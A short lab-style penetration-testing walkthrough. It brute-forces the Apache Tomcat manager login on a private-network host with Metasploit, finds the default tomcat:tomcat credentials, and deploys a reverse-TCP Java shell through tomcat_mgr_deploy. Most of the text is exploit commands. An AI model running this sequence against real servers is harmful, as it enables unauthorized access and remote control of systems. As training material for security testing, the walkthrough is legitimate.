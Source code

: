 and you have full shell access.

################################################################################################
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1

we first try user:pass brute-force to get access.

msf > use auxiliary/scanner/http/tomcat_mgr_login 
msf auxiliary(scanner/http/tomcat_mgr_login) > set  RPORT 8180
msf auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 192.168.0.117
msf auxiliary(scanner/http/tomcat_mgr_login) > exploit

we found tomcat:tomcat as administrator username and password.

now we try to get shell access. 

msf > use multi/http/tomcat_mgr_deploy
msf exploit(multi/http/tomcat_mgr_deploy) > set RPORT 8180
msf exploit(multi/http/tomcat_mgr_deploy) > set RHOST 192.168.0.117
msf exploit(multi/http/tomcat_mgr_deploy) > set httpusername tomcat
msf exploit(multi/http/tomcat_mgr_deploy) > set httppassword tomcat
msf exploit(multi/http/tomcat_mgr_deploy) > set payload java/shell/reverse_tcp 
msf exploit(multi/http/tomcat_mgr_deploy) > exploit

we now have shell access :) 
